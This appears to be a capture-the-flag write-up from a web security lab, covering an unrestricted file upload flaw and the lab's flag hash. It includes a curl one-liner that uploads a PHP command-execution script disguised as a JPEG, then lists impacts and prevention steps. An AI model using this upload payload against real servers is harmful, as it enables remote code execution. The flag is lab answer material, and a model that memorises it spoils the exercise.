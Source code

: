 # REMOTE_FILE_INCLUSION 

## 🏴 Flag
```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## 📌 Extract

Page: [http://{IP}/index.php?page=upload](http://{IP}/index.php?page=upload)  
Inspect this form:

```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

This HTML form allows file uploads via a POST request, focus on:  
`<input name="uploaded" type="file">`: File selection field.  
`<input type="submit" name="Upload" value="Upload">`: Upload button.

> Testing injection of a php file

```sh
echo "<?php system('ls'); ?>" | \
curl -F "Upload=Upload" \
-F "uploaded=@-;type=image/jpeg" "http://{IP}/index.php?page=upload" | \
grep "The flag is :"
```

Sends an HTTP POST request to the website's upload page :
- `echo "<?php system('ls'); ?>"` : Create a php script.
- `-F "Upload=Upload"`: Simulates a submit button.
- `-F "uploaded=@-;type=image/jpeg"`:
	- `@-` means the file is taken from standard input (from the previous echo).
	- `type=image/jpeg` attempts to trick the server into believing it's an image.
- `grep "The flag is :”` filters the response.

## 🎯 Use

**Unrestricted File Upload** is a vulnerability where a website allows users to **upload files without properly validating** heir type or content. This can allow an attacker to upload malicious files (such as scripts) and **execute** them on the server.

- **Remote code execution:** Uploading a PHP file or executable script to take control of the server or run commands.  

- **Unauthorized data access:** Malicious files in public directories can be used to steal sensitive data like databases or config files.  

- **Privilege escalation:** Exploiting the vulnerability to gain admin privileges or access restricted server areas.  

- **🎣 Phishing or redirection attacks:** Malicious files executed in the user's browser can redirect them to malicious sites or steal sensitive information.

## 🔒 Prevention

1. **Strict file validation:** Allow only safe file types (e.g., images, documents) and reject executables (e.g., .php, .exe).  

2. **Rename uploaded files:** Rename uploaded files to random names to block execution.  

3. **File content detection:** Verify file content matches its type (e.g., ensure .jpg is an image, not a script).  

4. **Disable execution:** Prevent execution in upload directories (e.g., use .htaccess or similar settings).  

5. **Limit permissions:** Set read/write-only permissions, not execute.  

6. **Security tools:** Use antivirus or file scanners.

## 📚 Documentation

[wikipedia.org (Remote_File_Inclusion)](https://fr.wikipedia.org/wiki/Remote_File_Inclusion)  
[vaadata.com (exploitation-dune-faille-lfi)](https://www.vaadata.com/blog/fr/exploitation-dune-faille-lfi-local-file-inclusion-et-bonnes-pratiques-securite/)  
[chocapikk.com (faille_upload)](https://chocapikk.com/posts/2023/faille_upload/)

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#README)


